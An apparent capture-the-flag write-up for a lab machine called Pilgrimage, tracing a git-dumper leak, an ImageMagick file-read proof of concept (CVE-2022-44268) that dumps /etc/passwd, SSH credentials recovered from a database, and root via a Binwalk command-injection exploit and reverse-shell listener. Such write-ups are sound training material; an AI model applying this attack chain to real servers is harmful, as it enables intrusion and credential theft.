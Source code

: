 file upload http

imagemagick exploit file read 
```
Content-Disposition: form-data; name="toConvert"; filename="images.jpeg"
```
we can see that toConvert seems to be imagemagick 

On nmap we can see there is a git repo on 10.10.11.219:80/.git/ Git repository found!

if we gitdump 
```
sudo git-dumper http://pilgrimage.htb/.git/ git
```

on the files (index.php) we can clearly see that this is a magick converter
on dashboard.php we found $db = new PDO('sqlite:/var/db/pilgrimage');

so lets try the imagemagick file reader 

```
https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC
```

we got /etc/passwd
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
emily:x:1000:1000:emily,,,:/home/emily:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```

we try on the database file and after decoding the hex we get
user emily and emilyabigchonkyboi123 

we can connect  ssh emily@10.10.11.219 with password abigchonkyboi123

user.txt is here

in the box we can see that root make /bin/bash /usr/sbin/malwarescan.sh this is a script that use Binwalk when we check binwalk version we get Binwalk v2.3.2 wich is vulnerable to command injection

https://www.exploit-db.com/exploits/51249

so we create a malicious png with the tool 
open a listenner on our box 
upload the malicious png into the server in /var/www/pilgrimage.htb/shrunk/ (where the script is checking the files) 
and this is rooted
